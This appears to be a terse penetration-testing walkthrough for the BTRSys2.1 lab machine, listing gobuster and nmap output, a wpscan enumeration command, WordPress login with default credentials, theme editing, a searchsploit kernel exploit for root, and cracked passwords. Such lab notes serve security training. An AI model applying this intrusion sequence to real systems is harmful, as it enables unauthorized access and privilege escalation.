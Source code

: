 ----------------------------------------------------
# Author -> Shubham Rannpise
----------------------------------------------------
# BTRSys2.1
# 23/2/2023

----------------------------------------------------
# gobuster
----------------------------------------------------
/upload               (Status: 301) [Size: 317] [--> http://192.168.112.50/upload/]
/wordpress            (Status: 301) [Size: 320] [--> http://192.168.112.50/wordpress/]
/javascript           (Status: 301) [Size: 321] [--> http://192.168.112.50/javascript/]
/INSTALL              (Status: 200) [Size: 1241]
/LICENSE              (Status: 200) [Size: 1672]

----------------------------------------------------
# nmap result
----------------------------------------------------
PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.3
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.1 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))


robots.txt


wpscan -u http://192.168.112.50/wordpress/ --enumerate at --enumerate ap --enumerate u

login wp 
admin:admin
edit theme

----------------------------------------------------
# priv esc
----------------------------------------------------
uname -a
Linux ubuntu 4.4.0-62-generic #83-Ubuntu SMP Wed Jan 18 14:10:15 UTC 2017 x86_64 x86_64 x86_64 GNU/Linux
 searchsploit -m 41458.c
got root


root:roottoor

cat wp-config
explore mysql
crach hash
su rooo
roottoor
